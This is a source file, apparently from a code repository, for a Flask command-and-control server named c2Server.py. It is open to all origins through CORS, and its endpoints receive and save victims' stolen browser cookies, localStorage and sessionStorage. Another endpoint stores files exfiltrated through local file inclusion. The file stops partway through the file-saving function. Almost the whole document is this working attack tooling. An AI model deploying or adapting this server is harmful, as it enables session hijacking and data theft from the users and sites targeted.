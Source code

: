 c2Server.py:
```
from flask import Flask
from flask import request
from flask_cors import CORS
import os

app = Flask(__name__)
cors = CORS(app, resources={r"/*": {"origins": "*"}})

command = ""

@app.route("/saveCookie", methods=['POST', 'GET'])
def saveCookie():
    cookie = ""
    if request.method == 'GET':
        cookie = request.args.get("a")
    else:
        cookie = request.form["a"]
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveLocalStorage", methods=['POST', 'GET'])
def saveLocalStorage():
    localStorage = ""
    if request.method == 'GET':
        localStorage = request.args.get("a")
    else:
        localStorage = request.form["a"]
    f = open("savedLocalStorage.txt", "a")
    f.write(localStorage)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveSessionStorage", methods=['POST', 'GET'])
def saveSessionStorage():
    sessionStorage = ""
    if request.method == 'GET':
        sessionStorage = request.args.get("a")
    else:
        sessionStorage = request.form["a"]
    f = open("savedSessionStorage.txt", "a")
    f.write(sessionStorage)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveFile", methods=['POST'])
def saveFile():
    separator = "/"
    mainFolder = "./LFIFiles"
    fileContent = request.form["fileContent"]
    fileName = request.form["fileName"]
    fileName = fileName.replace("../","")
    
    if fileName.startswith("/"):
        separator = ""
    fullPathFileName = mainFolder + separator + fileName
    filePath = '/'.join(fileName.split('/')[0:-1])
    storageFolder = mainFolder + separator + filePath
```